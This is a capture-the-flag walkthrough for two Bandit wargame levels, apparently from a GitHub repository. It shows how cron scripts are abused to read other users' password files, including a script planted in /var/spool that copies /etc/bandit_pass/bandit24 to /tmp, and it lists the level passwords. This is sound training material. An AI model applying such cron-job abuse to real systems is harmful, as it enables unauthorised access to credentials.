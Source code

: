 	myname=$(whoami)
	mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

	echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

	cat /etc/bandit_pass/$myname > /tmp/$mytarget

When we run `cronjob_bandit23.sh` it will get `myname=bandit22`, so we will run these command to get password for bandit23

	myname=bandit23
	mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
	cat /tmp/$mytarget

## Result
- Password: `jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`

# Level 23 - Level 24
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

**NOTE**: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2**: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around ...

## Solution
`/usr/bin/cronjob_bandit24.sh`

	#!/bin/bash

	myname=$(whoami)

	cd /var/spool/$myname
	echo "Executing and deleting all scripts in /var/spool/$myname:"
	for i in * .*;
	do
	    if [ "$i" != "." -a "$i" != ".." ];
	    then
	        echo "Handling $i"
	        timeout -s 9 60 "./$i"
	        rm -f "./$i"
	    fi
	done

We create a new shell script and put it on `/var/spool/bandit24` directory. This shell script will be cat the password of bandit24 and write to file at `/tmp/` directory.

	#!/bin/bash
	cat /etc/bandit_pass/bandit24 > /tmp/glider-password.txt

## Result
- Password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
